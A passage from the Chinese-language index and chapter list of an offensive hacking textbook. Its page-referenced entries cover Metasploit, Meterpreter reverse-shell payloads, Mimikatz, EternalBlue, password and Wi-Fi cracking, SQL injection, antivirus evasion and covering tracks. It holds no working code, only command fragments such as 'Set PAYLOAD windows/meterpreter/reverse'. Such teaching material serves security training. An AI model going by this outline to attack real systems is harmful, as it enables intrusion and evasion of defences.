- Metasploit，24，31-32，142-47，149-51，154-58，161，163-67，169，172-75，198-99，210-11，233-34，318，320
  - 其中的辅助模块，155
- Metasploitable，34，44，80，291，297
- 黑客的 Metasploit 基础，321
- Metasploit 命令，150
- Metasploit 命令和后利用模块，210
- Metasploit 目录结构，150，154
- 用于社会工程的 Metasploit，174，319
- Metasploit 框架，24，154，167
- Metasploit 载荷，167
- Metasploit 端口扫描模块，157
- Meterpreter，161-63，166-67，172，199-209，211，247，249-50，254
- Meterpreter 载荷，173，175
- Mimikatz，141，207-8
- MiTM 攻击，91，177
- 模块，24，139-40，144，146-50，152，154-58，163-64，166，234，281，290-91
  - 辅助模块，144，155，157-58
  - 新模块，164，166，234
- `msf5`，145，147-50，155-61，166，172-73，198，318
- `msfconsole`，143-45，149，151，155-56，173，318
- `msfvenom`，166-68，170-71，173-75，234，319
- Mysql，21，46，78，140，209-10，214，220，222，298

## N

- MySQL 数据库，140，209，211
- 域名服务器，58，66–67，69，71，76
- 国家安全局。*参见 NSA*
- Nessus，26，99，101–5，107，109–10，143
- Netcraft，30，49，54，57，76，94–95
- 黑客的网络基础，20
- 网卡 (NICs)，177
- 网络入侵检测系统 (NIDS)，25
- NICs (网卡)，177
- NIDS (网络入侵检测系统)，25
- `Nmap`，23，30，78–89，92，100，143，156
- Nmap 命令，80–81，86
- NSA (国家安全局)，2–3，10，13，108，190–91，307，319，325
- NSA 的 EternalBlue，v，13，76，177，190，201

## O

- 混淆 (Obfuscate)，235–36，242，245
- 混淆 (Obfuscation)，242–43，245
- Occupytheweb，iii，v，284-85
- Ollydbg，26-27
- 在线密码，120，138
- 开放端口，23，77，84-85，155，295
  - 扫描开放端口，84，175
- 开源情报。*参见 OSINT*
- 开放 Web 应用安全项目。*参见 OWASP*
- OSINT (开源情报)，30，49，76，309
- OTW，vi，137，216-17
- OWASP (开放 Web 应用安全项目)，110，214，218，235
- OWASP ZAP，110-11，114
- OWASP-ZAP，25，111，218-19，235
- OWASP-ZSC，235-41，243，245

## P

- 被动侦察，vi，30，48-49，77
- 密码破解器，6，134，203，298
  - 命令行，138
  - 优秀的 Unix/Linux 工具，122
  - 最快的开源工具，26
- 密码破解，vi，30，138
- 密码破解工具，120，209
- 密码哈希值，26，31，118，122–23，136–38，207，247，263，274–75
- 密码列表
  - 自定义列表，126，130，141
  - 潜在密码列表，120，131


- 密码，30–31，44，117–26，128，134，136–41，176–77，182，209，213，215–17，224，256，263，296，298–300，315，317–18，322–23，325
  - 破解，117–18，120，122
  - 离线，120，138
- 载荷，24，31，144–47，149，160–61，166–73，186–87，192，194，197–98，233–35
- 个人可识别信息 (PII)，10，32
- PIN 码，266–67，279
- PlayStation 网络，10
- PMK (成对主密钥)，258，275
- PMKID，275–79
- PMKID 攻击，274
- 端口，58，61，63–66，71，77–78，80–86，89–90，92，97–98，149，180–82，186，290–93，295–96，298
- 后利用，vi，24，32，143–44，201，209–10
- 后利用模块，198-99，210-11
- 潜在密码，119-20，128，133，230，299
- 预设 (Pretexting)，308，319-20
- 探针，26，30，71，92，94，99，274，276
- 编程，面向对象编程，281-82
- 编程语言，281，284，287-89，294
- PSK (预共享密钥)，256-58，277，326
- PyCharm，283，287，301
- Python，v，21，281-91，293-94，296，298，300，304
- Python3，281，285
- Python 解释器，287-88，292，294，302
- Python 模块，281
- Python 脚本，92，281，283，295，300-301

## R
- RAM，34，38，141，207-8
- 勒索软件，3，13，99，107
- Rapd7，143，149，155，164，234
- RCE (远程代码执行)，107，190
- Reaver，267-68，279

## 索引
- 远程代码执行 (RCE)，107, 190
- 远程密码破解，26, 138
- Rules 密码哈希值，125, 128
- 俄罗斯，2, 4, 8–9, 13
- 俄罗斯黑客，4, 13, 190

### S
- 脚本，跨站，214, 227–28
- 搜索 Shodan，63–65
- 服务器消息块。参见 SMB
- `Set`，32, 34, 42, 72, 74, 88–89, 91–92, 147–49, 157, 160–61, 308–10, 316, 320
- `SET` 命令，147, 149, 161
- `Set PAYLOAD windows/meterpreter/reverse`，173
- `Set RHOSTS`，157, 159, 161
- Shellcode，143, 193, 233, 235–36, 238–39, 241–43, 245
  - new，235, 243
- Shellcode 数据库，238, 245
- Shikata，170–71, 319
- Shodan，26, 30, 49, 60–63, 65–66, 76, 290
- SMB (Server Message Block，服务器消息块)，13, 26, 77, 82–83, 86, 89, 153, 190–92, 235, 304
- SMB 数据包，192
- 社会工程学攻击，52, 279, 307, 309, 319
- 社会工程学工具，309
- Spyaudio.wav，206-7
- SQL，214-17
- SQLi。参见 SQL 注入
- SQL 注入，21, 51, 213-14, 217-19, 231-32
- SQL 注入 (SQLi)，21, 25, 51, 213-15, 217-19, 231-32
- Sqlmap，25, 213, 218-22, 281
- SSID，256, 258, 261, 268, 326
- Swartz，10-11
  - Aaron，10-11
- Sysinternals，24-25

### T
- TCP 连接，291
- Tcpdump，20, 177-82, 196
- TCP 标志，72, 74, 88, 156, 181
- TCP 监听器，291
- TCP 端口，78, 82, 84, 86, 181
- TCP 扫描，80, 82, 85, 156
- THC-Hydra，26, 66
- 时间戳，91, 247, 249–50
- 时间戳，249–50
- TJX，8–9
- 转换格式，169
- TTL，72

### U
- UDP，78, 81–82, 87, 185
- UDP 端口，81, 86
- UDP 扫描，82
- 不安全无线网络，8–9
- USC 标题，15–16
- `Uxiliary/scanner/portscan`，156

### V
- VirtualBox，20, 34, 36–37, 41
- 虚拟机 (VM)，34, 36–39, 42, 183
- 虚拟机，36–38, 42
- VirusTotal，243–45
- VM。参见 虚拟机

### W
- WAF (Web Application Firewall，Web 应用防火墙)，94
- Web 应用防火墙 (WAF)，94
- 网络摄像头，32, 60, 197, 203–4, 206, 210, 310, 313
- 网络摄像头命令，200, 313
- Web 黑客攻击，vi, 138, 212–14, 231
- Webscantest，220–22
- 网站，扫描，92–94
- Web 技术，92, 213
- WEP，20, 256–57, 263, 324–26
- Wwvutil，248, 254
- Whatweb，92–95
- Wi-Fi，20, 255–58, 260, 279
- Wi-Fi 适配器，258, 265, 268
- Wi-Fi 接入点，256-57, 259, 261-62, 266, 277
- Wifiphisher，279, 315-17, 320
- WikiLeaks，5, 8, 11-13
- 窗口大小，72
- Windows meterpreter，171, 247
- Windows 密码哈希值，137
- Metasploit 中的 Windows 后渗透模块，211
- 无线适配器，183, 276
- 无线网卡，264, 279
- 无线网络接口，257, 259
- Wireshark，20, 24, 177, 182-84, 188-92, 195-96, 271-72
- Wlan0mon，261, 264-69, 271, 273, 276-77
- 字典，120-22, 125, 127-28, 130-31, 136-38, 263
- Wordpress，54, 94-95, 222-23, 225-26, 229, 231
- Wordpress 网站，213, 223-27, 230, 232
- 被黑的 WordPress 网站，225
- WordPress 网站，54, 222
- WPA，20, 257, 326
- WPA2，20, 256-58, 263, 324
- WPA2-PSK，263, 274, 326
- WPA2-PSK 暴力破解密码攻击，274
- WPS，20, 266-67, 279
- Wpscan，225-27, 229-31, 281
- Www.cybrary.it，94, 229, 231
- Www.hackers-arise.com，iii, 4, 20, 127-28
- Www.hackers-arise.com/database-hacking，21, 25
- Www.hackers-arise.com/hacking-bluetooth，256
- Www.hackers-arise.com/osint，30, 49, 309
- Www.hackers-arise.com/password-lists，121
- Www.hackers-arise.com/passwords-list，125
- Www.hackers-arise.com/scada-hacking，17
- Www.hackers-arise.com/scripting，21
- Www.hackers-arise.com/web-app-hacking，21, 114
- Www.hackers-arise/scada-hacking，2
- Www.networksolutions.com，59
- Www.packetstormsecurity.com，227-28

## 目录
- 第 1 章：入门
- 第 2 章：黑客基础知识
- 第 3 章：黑客流程


# 章节目录

- 第 4 章：创建虚拟实验室
- 第 5 章：被动侦察
- 第 6 章：主动侦察
- 第 7 章：发现漏洞
- 第 8 章：密码破解
- 第 9 章：使用 Metasploit 5 进行利用
- 第 10 章：数据包捕获与分析
- 第 11 章：后渗透阶段
- 第 12 章：Web 黑客攻击
- 第 13 章：绕过防病毒软件
- 第 14 章：掩盖踪迹
- 第 15 章：Wi-Fi 黑客攻击
- 第 16 章：恶意 Python
- 第 17 章：社会工程学
